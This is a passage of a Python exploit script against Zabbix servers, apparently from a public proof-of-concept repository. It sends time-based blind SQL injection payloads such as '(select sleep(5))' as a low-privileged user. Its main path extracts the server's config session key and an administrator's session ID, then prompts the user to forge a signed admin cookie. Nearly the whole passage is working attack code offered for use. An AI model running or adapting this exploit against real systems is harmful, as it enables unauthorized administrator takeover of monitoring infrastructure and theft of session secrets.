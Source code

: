 ```python
                print("(+) session_key=%s" % token, end="", flush=True)
                break
    print("\n")
    return token

def tiny_poc(ip, port, sid, hostid):
    print("(+) Running simple PoC...\n", end="", flush=True)
    print("(+) Sleeping for 1 sec...\n", end="", flush=True)
    before_query = datetime.now().timestamp()
    query = "(select sleep(1))"
    send_message(ip, port, sid, hostid, query)
    after_query = datetime.now().timestamp()
    print("(+) Request time: %d\n" % (after_query-before_query))
    print("(+) Sleeping for 5 sec...\n", end="", flush=True)
    before_query = datetime.now().timestamp()
    query = "(select sleep(5))"
    send_message(ip, port, sid, hostid, query)
    after_query = datetime.now().timestamp()
    print("(+) Request time: %d\n" % (after_query - before_query))
    print("(+) Sleeping for 10 sec...\n", end="", flush=True)
    before_query = datetime.now().timestamp()
    query = "(select sleep(10))"
    send_message(ip, port, sid, hostid, query)
    after_query = datetime.now().timestamp()
    print("(+) Request time: %d\n" % (after_query - before_query))

def poc_to_check_in_zabbix_log(ip, port, sid, hostid):
    print("(+) Sending SQL request for MySQL version...\n", end="", flush=True)
    query = "(version())"
    send_message(ip, port, sid, hostid, query)

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='Command-line option parser example')
    parser.add_argument("--false_time", help="Time to sleep in case of wrong guess(make it smaller than true time, default=1)", default="1")
    parser.add_argument("--true_time", help="Time to sleep in case of right guess(make it bigger than false time, default=10)", default="10")
    parser.add_argument("--ip", help="Zabbix server IP")
    parser.add_argument("--port", help="Zabbix server port(default=10051)", default="10051")
    parser.add_argument("--sid", help="Session ID of low privileged user")
    parser.add_argument("--hostid", help="hostid of any host accessible to user with defined sid")
    parser.add_argument("--poc", action='store_true', help="Use this key if you want only PoC, PoC will simply make sleep 1,2,5 seconds on mysql server", default=False)
    parser.add_argument("--poc2", action='store_true', help="Use this key to simply generate error in zabbix logs, check logs later to see results", default=False)
    args = parser.parse_args()
    if args.poc:
        tiny_poc(args.ip, int(args.port), args.sid, args.hostid)
    elif args.poc2:
        poc_to_check_in_zabbix_log(args.ip, int(args.port), args.sid, args.hostid)
    else:
        print("(+) Extracting Zabbix config session key...\n", end="", flush=True)
        config_session_key = extract_config_session_key(args.ip, int(args.port), args.sid, args.hostid, int(args.false_time), int(args.true_time))
        print("(+) config session_key=%s\n" % config_session_key, end="", flush=True)
        print("(+) Extracting admin session_id...")
        admin_sessionid = extract_admin_session_id(args.ip, int(args.port), args.sid, args.hostid, int(args.false_time), int(args.true_time))
        print("(+) admin session_id=%s\n" % admin_sessionid, end="", flush=True)
        print("(+) session_key=%s, admin session_id=%s. Now you can genereate admin zbx_cookie and sign it with session_key" % (config_session_key, admin_sessionid))
```

